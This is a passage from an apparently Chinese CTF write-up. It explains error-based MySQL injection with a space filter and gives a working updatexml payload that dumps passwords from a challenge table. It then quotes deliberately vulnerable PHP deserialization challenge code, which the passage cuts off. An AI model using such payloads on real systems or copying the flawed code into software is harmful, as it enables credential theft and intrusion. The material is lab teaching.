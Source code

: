 > 考点：报错注入
>
> 空格过滤

这里略微写下，就不直接复现了

注意几个点：

1.在mysql里面过滤了空格可以用括号代替，比如`select(schema_name)from(information_schema.schemata)`

2.根据上面的可以用报错注入，`updatexml(1,语句,1)`

3.left可以看前面，当然right()就可以看后面，我这里用的是reverse()

```mysql
?username=1&password=2'or(updatexml(1,(concat('~',reverse((select(group_concat(concat(password,'-',id)))from(H4rDsq1))),'~')),1))%23
```

## [网鼎杯 2020 青龙组]AreUSerialz

> 考点：php反序列化
>
> php弱类型比较

阅读源码

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
```